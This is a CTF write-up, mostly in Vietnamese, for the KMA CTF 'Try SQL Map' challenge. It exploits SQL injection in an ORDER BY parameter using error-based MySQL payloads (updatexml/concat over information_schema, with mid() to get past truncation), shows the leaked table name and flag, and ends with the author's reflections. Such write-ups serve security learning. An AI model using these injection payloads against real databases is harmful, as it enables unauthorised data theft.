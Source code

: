# KMA CTF - Try SQL Map

**hints**: The length of flag table name > 32 characters

## PHÂN TÍCH
Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY: `http://try-sqlmap.ctf.actvn.edu.vn/?order=id`

Câu truy vấn có thể sẽ như sau:

```
SELECT column_name from table_name order by $_GET[order]
```

`Quick sqlmap` --> sql injection `error based`!

**Payload**:
```
updatexml(0,concat(0xa,(select table_name from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
flahga123456789xxsxx012xxxxxxxx'
```

Because of the length, we use mid function in MySQL to cut the rest of flag that are not fullt obtain.

```
updatexml(0,concat(0xa,(select mid(table_name,20,25) from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
x012xxxxxxxxx34567xx1'
```

Ok, merge it together: `flahga123456789xxsxx012xxxxxxxxx34567xx1`, we got the table name.

Same with column and flag using column_name from information_schema.tables --> select column_name from flahga123456789xxsxx012xxxxxxxxx34567xx1....

**flag**: `KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}`

**Góc than thở**:
```
Mình chỉ cặm cụi với extractvalue(), mặc dù nó không sai nhưng chỉ biết thay đổi main query mà không thay đổi cấu trúc syntax toàn câu lệnh. Mặc dù đây là error based nhưng không có nghĩa nó sẽ trả về error của error mà chỉ là kết quả lệnh đó, nếu không sẽ chỉ trả về NULL. Mình cần stick với challenge lâu hơn và thử tất cả, điều chỉnh tỉ mỉ từng query cho đến khi bế tắc thay vì nhảy cóc và 'cho rằng' nên không thử. 

Hàm extractvalue ở payload all the things nó dùng random() để gây lỗi, nhưng ta chỉ cần số 0 là có thể gây lỗi rồi trong khi random có thể  bị block hay raise error, phải try everything. Haiz!!
```
